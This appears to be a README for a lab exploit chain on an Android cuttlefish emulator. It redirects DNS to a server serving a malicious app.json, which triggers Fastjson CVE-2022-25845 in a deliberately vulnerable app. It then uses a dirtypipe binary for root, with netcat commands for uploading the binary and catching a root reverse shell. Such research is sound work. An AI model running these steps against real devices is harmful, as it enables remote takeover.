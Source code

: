 # Run Info

Start the server using python3 ./src/server.py
server.py will run a simple python server that will provide the ./src/app.json file required by the vulnerable app com.ds.viewimagejava

Assume cuttlefish instance is already running and ADB_PORT is known.

Identify the mtap interface of your instance. This can be gathered from
`ip addr` and finding the cvd-mtap-{instance_number}.

Replace {mtap-ip} and {ADB_PORT} in run_chain.sh with your cuttlefish instance values.

You also need to run two netcat listeners on your server. Both should be running simulateneously on seperate terminals before you use run_chain.sh

nc -l -v -p 3456 < {PATH/TO/}dirtypipe (this will upload the dirtypipe binary to your device)

nc -lvnp 4444 (this is for the reverse shell with root)

Run run_chain.sh
run_chain.sh will modify the DNS record for your cuttlefish instance so that the vulnerable app com.ds.viewimagejava connects to your python server when it attempts to connect to example.com
It will then run the vulnerable app which will download app.json from your server and trigger the exploit which uses CVE-2022-25845.
CVE-2022-25845 is a vulnerability in Alibaba’s Fastjson library (versions before 1.2.83), caused by a bypass in the autoType check mechanism.
./src/app.json can be used to specify the cmd run using Runtime.getRuntime().exec(cmd) in the ErrorHandler class in the vulnerable app.
In order to get priviliged remote code execution we use dirtypipe exploit.
This requires you to have the dirtypipe binary crafted specifically for your ip and the vulnerable app.










